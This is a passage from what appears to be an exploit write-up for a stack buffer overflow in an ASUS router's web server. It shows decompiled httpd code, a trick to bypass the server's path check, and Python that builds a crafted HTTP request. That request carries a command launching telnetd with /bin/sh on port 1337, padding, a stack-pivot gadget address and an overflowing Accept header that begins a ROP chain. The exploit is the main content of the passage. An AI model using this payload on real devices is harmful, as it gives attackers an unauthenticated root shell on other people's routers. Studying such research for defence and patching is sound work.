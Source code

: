 ```c
    v42 = 127;
  }
  strncpy(byte_A6250, v43, v42);
  if ( (strstr(byte_A6250, ".asp") || strstr(byte_A6250, ".htm"))
    && !strstr(byte_A6250, "update_networkmapd.asp")
    && !strstr(byte_A6250, "update_clients.asp")
    && !strstr(byte_A6250, "update_customList.asp") )
  {
    memset(&unk_A61C0, 0, 0x80u);
    snprintf((char *)&unk_A61C0, 0x80u, "%s", byte_A6250);
  }
  if ( strncmp(byte_A6250, "applyapp.cgi", 0xCu)
    && strncmp(byte_A6250, "api.asp", 7u)
    && !strncmp(byte_A6250, "getapp", 6u) )
  {
```

An offset is needed because the url started with `"command="`. The reason for the url to start with that is because the parser would return an error if the url started with a `"/"`.

```c
if ( path[0] != '/' ) {
	send_error( 400, "Bad Request", (char*) 0, "Bad filename." );
	return;
}
file = &(path[1]);
len = strlen( file );
if ( file[0] == '/' || strcmp( file, ".." ) == 0 || strncmp( file, "../", 3 ) == 0 || strstr( file, "/../" ) != (char*) 0 || strcmp( &(file[len-3]), "/.." ) == 0 ) {
	send_error( 400, "Bad Request", (char*) 0, "Illegal filename." );
	return;
}
```

To solve that, the string `command=` can be prepended.

As the stack pivot does not hit within the sent payload, more data was added under the Accept value. The De Bruijn sequence was used to find the offset of the next return address. Note that the return address should be at the end of the value before `"\r\n"`.

The first part of the ROP Chain look like this.

```python
command = '/usr/sbin/telnetd -l /bin/sh -p 1337;'.replace('\x20', '\t').ljust(127,"#")
# The address 0x000a6259 is fixed due to it being in the .bss section as url variable is a global variable and since PIE is not enabled, it is a fixed address
COMMANDADDR = 0x000a6250 + len("command=") # Need to offset else command will point to command= instead

# p32(INITIAL_PIVOT_GADGET)[:-1] is because when this path is taken, the null byte will be added automatically and this 
# is also to allow the continuation of the header processing else there will be an error                                          
header = "GET /command=" + command +  "A"*(532-len(command)-len("command=")) +p32(0x0002acd8)[:-1] +"   HTTP/1.1\r\n"                                                                                           
header += "Host: router.asus.com\r\n"
header += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0\r\n"        
header += "Accept: text/html,application/xhtml+xml,"+"A"*302+"application/xml;q=0.9,*/*;q=0.8"+p32(0x41414141)+  "\r\n"                                                                                                  
```

